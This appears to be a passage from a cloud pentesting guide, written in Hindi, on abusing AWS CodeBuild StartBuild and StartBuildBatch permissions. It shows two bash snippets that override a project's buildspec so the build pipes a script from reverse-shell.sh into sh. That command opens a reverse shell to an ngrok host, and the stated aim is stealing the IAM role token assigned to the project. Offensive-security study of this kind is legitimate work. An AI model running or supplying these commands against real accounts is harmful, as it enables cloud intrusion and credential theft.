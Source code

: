 {% content-ref url="../aws-services/aws-codebuild-enum.md" %}
[aws-codebuild-enum.md](../aws-services/aws-codebuild-enum.md)
{% endcontent-ref %}

### `codebuild:StartBuild` | `codebuild:StartBuildBatch`

इनमें से किसी एक अनुमति के साथ एक नया buildspec के साथ एक build को ट्रिगर करना और प्रोजेक्ट को असाइन की गई iam भूमिका का टोकन चुराना पर्याप्त है:

{% tabs %}
{% tab title="StartBuild" %}
{% code overflow="wrap" %}
```bash
cat > /tmp/buildspec.yml <<EOF
version: 0.2

phases:
build:
commands:
- curl https://reverse-shell.sh/6.tcp.eu.ngrok.io:18499 | sh
EOF

aws codebuild start-build --project <project-name> --buildspec-override file:///tmp/buildspec.yml
```
{% endcode %}
{% endtab %}

{% tab title="StartBuildBatch" %}
{% code overflow="wrap" %}
```bash
cat > /tmp/buildspec.yml <<EOF
version: 0.2

batch:
fast-fail: false
build-list:
- identifier: build1
env:
variables:
BUILD_ID: build1
buildspec: |
version: 0.2
env:
shell: sh
phases:
build:
commands:
- curl https://reverse-shell.sh/6.tcp.eu.ngrok.io:18499 | sh
ignore-failure: true
EOF

aws codebuild start-build-batch --project <project-name> --buildspec-override file:///tmp/buildspec.yml
```
{% endcode %}
{% endtab %}
{% endtabs %}
